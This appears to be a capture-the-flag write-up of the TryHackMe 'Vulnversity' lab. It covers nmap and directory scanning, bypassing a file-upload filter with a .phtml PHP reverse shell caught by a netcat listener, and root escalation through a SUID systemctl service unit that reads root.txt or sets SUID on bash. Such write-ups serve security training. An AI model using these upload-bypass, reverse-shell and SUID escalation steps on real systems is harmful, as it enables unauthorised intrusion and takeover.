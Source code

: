 ```yaml
---
title: Vulnversity
desc: 'THM: Learn about active recon, web app attacks and privilege escalation.'
---
```

## Recon/OSINT

Target IP: 10.10.181.213 (`$IP`)

## Enumeration

### *Nmap Scan*
Enumerate open ports and services on the machine using Nmap.

```console
$ nmap -sV -oN nmap.output $IP
```
![Nmap Initial Scan](../../assets/images/thm/vulnversity/nmap-initial.png)

### *Feroxbuster Scan*
Enumerate hidden directories and subdomains.

```console
$ feroxbuster -u http://$IP:3333 -o ferox.output
```
![Feroxbuster Output](../../assets/images/thm/vulnversity/ferox.png)

Found image upload form under directory `/internal/`

## Exploitation
Image upload form is filtering file extensions preventing us from uploading a potential `.php` exploit file. Using `Burpsuite Repeater` tried different PHP extensions (`.php, .php3, .php4, .php5, .phtml`) to see if the filter is bypassed.

The upload form is susceptible to a `.phtml` extension.

![PHP Upload Failure](../../assets/images/thm/vulnversity/burp-repeater-php.png)

![PHTML Upload Success](../../assets/images/thm/vulnversity/burp-repeater-phtml.png)

Downloaded reverse PHP shell from [Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and renamed the extension to `.phtml`.

Started Netcat listener on port 1234.

```console
$ nc -lvnp 1234
```
Uploaded `shell.phtml` and navigated to `http://$IP:3333/internal/upload/shell.phtml` to get the shell.

![Reverse Shell](../../assets/images/thm/vulnversity/initialshell.png)

Stabilized shell with:
```console
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Pressed `CTRL + Z` to background process and get back to the host machine. Used `stty` command to set terminal line settings and foreground back the target terminal.

```console
$ stty raw -echo; fg
```
Set terminal emulator to xterm.

```console
$ export TERM=xterm
```
Now we can use tab autocomplete and other standard terminal shortcuts.

Found user flag:

![User Flag](../../assets/images/thm/vulnversity/user-flag.png)

## Privilege Escalation
Search for all files on the filesystem with SUID bit set.

```console
$ find / -perm -4000 2>/dev/null
```
OR

```console
$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
SUID bit is set on `/bin/systemctl` which can be exploited to escalate privileges.

![systemctl SUID](../../assets/images/thm/vulnversity/systemctl.png)

From [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid):

```console
$ TF=$(mktemp).service
$ echo '[Service]
>Type=oneshot
>ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
>[Install]
>WantedBy=multi-user.target' > $TF
```
```console
$ ./systemctl link $TF
```
```console
$ ./systemctl enable --now $TF
```
![Root Flag](../../assets/images/thm/vulnversity/priv-esc.png)

> **<span style="color:red">Alternatively set SUID on /bin/bash and run bash -p to get root: </span>**
`ExecStart=/bin/sh -c "chmod +s /bin/bash"`